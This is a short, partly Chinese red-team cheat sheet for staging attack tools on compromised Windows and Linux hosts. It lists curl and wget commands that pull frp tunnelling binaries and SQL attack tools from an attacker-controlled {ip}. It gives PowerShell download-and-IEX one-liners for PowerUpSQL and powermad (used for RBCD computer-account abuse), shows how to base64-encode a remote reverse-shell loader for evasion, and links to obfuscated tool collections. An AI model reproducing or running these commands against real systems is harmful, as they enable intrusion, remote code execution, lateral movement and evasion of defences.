 
__frp__

curl http://{ip}/tools/frp_win/frps.exe -o C:\Users\Public\frps.exe

curl http://{ip}/tools/frp_win/frpc.exe -o C:\Users\Public\frpc.exe

wget http://{ip}/tools/frp_lin/frps

wget http://{ip}/tools/frp_lin/frpc


> mssql

**SqlClient.exe**

curl http://{ip}/obf/SqlClient.exe -o C:\Users\Public\SqlClient.exe
 
**AutoSQL.exe**

curl http://{ip}/tools/AutoSQL.exe -o C:\Users\Public\AutoSQL.exe

**PowerUpSQL.ps1**

``` powershell
((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/PowerUpSQL.ps1')) | iex
```

> 其他

配合RBCD 添加计算机账户 powermad / StandIN

```
iex ((new-object net.webclient).downloadstring('http://{ip}/tools/ps1/powermad.ps1')) 
```




---
## 加密

``` powershell
$text = "(New-Object System.Net.WebClient).DownloadString('http://{ip}/out/ps1/rev1.txt') | IEX"

$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)

$EncodedText = [Convert]::ToBase64String($bytes)

$EncodedText | clip
```


---
## 参考
[混淆的程序](https://github.com/Flangvik/ObfuscatedSharpCollection/tree/main)

[混淆powershell脚本]()

[混淆hta]()